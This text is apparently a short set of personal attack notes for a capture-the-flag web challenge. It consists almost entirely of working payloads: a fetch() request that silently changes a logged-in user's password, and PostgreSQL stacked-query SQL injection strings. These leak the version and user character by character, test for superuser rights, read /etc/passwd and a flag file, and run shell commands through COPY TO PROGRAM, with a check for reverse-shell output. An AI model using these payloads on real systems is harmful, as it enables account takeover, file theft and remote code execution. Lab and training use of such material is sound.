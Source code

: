 Fetch -> sql website with rabbit

fetch("https://192.168.62.62:8443/api/me/password", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
  },
  body: "password=testtest",
  credentials: "include"
});


version
00000000-0000-0000-0000-000000000000'; (SELECT CAST(ASCII(SUBSTRING(version(),1,1)) AS integer))--
cant be tested multiple times
SUBSTRING(version(),2,1)
SUBSTRING(version(),3,1)

current user
00000000-0000-0000-0000-000000000000'; (SELECT CAST(ASCII(SUBSTRING(current_user,1,1)) AS integer))--

superuser 1 if yes 0 if no
00000000-0000-0000-0000-000000000000'; (SELECT CAST((SELECT CASE WHEN rolsuper THEN 1 ELSE 0 END FROM pg_roles WHERE rolname = current_user) AS integer))--



read file
00000000-0000-0000-0000-000000000000'; (SELECT CAST(LENGTH(pg_read_file('/etc/passwd', 0, 1000)) AS integer))--



shell if superuser
COPY (SELECT '') TO PROGRAM 'id > /tmp/test.txt';


Check if file readable	
' ; (SELECT CAST(LENGTH(pg_read_file('/etc/passwd',0,1000)) AS integer))--

Extract 1 char	
' ; (SELECT CAST(ASCII(SUBSTRING(pg_read_file('/etc/passwd',0,1000),1,1)) AS integer))--

Check for flag file	
' ; (SELECT CAST(LENGTH(pg_read_file('/flag.txt',0,1000)) AS integer))--

Dump flag.txt	
' ; (SELECT CAST(ASCII(SUBSTRING(pg_read_file('/flag.txt',0,1000),1,1)) AS integer))--

RCE file existence check	
' ; (SELECT CAST(LENGTH(pg_read_file('/tmp/test.txt',0,100)) AS integer))--

Check for reverse shell output	
' ; (SELECT CAST(ASCII(SUBSTRING(pg_read_file('/tmp/shell.log',0,100),1,1)) AS integer))--
